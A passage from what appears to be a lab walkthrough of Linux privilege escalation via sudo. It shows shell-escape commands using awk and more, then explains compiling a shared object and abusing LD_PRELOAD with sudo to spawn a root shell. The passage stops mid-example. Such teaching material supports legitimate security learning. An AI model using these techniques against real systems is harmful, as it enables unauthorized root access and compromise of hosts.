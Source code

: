 ```sudo awk 'BEGIN {system("/bin/sh")}'```

```TERM= sudo more /etc/profile```
<br />
```!/bin/sh```

![image](https://user-images.githubusercontent.com/14150485/172017159-7e447b85-e637-499f-bd3c-f6e1e22668af.png)

Successfully escalated to root!

![image](https://user-images.githubusercontent.com/14150485/172017178-17bcd1aa-41dc-40d2-981d-fd65a24f3a76.png)

<br />

### 6.3: Consider how you might use this program with sudo to gain root privileges without a shell escape sequence.

<br />

The answer to this is detailed in the following section.

```
No answer needed
```

<br />
<br />

## 7. Sudo - Environment Variables

<br />

Running the `sudo -l` command will reveal inherited environment variables, which should be listed as `env_keep`.

```
sudo -l
```

![image](https://user-images.githubusercontent.com/14150485/172237008-1b10abb9-2e7d-4ea0-8f46-b723ebeb1066.png)

The most important takeaway from this section should be that the `LD_PRELOAD` and `LD_LIBRARY_PATH` are both inherited from the user's environment. `LD_PRELOAD` loads a shared object before any others when a program is run. `LD_LIBRARY_PATH` provides a list of directories where shared libraries are searched for first.

Following along with the instructions, we proceed to create a shared object using the code in the `preload.c` via `gcc`.

```
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```

Running any programs we have permissions to use `sudo` with, setting the `LD_PRELOAD` value to the shared file we just created, will spawn a root shell for us!

```
sudo LD_PRELOAD=/tmp/preload.so program-name-here
```

As an example, we can use `iftop` to get root:

```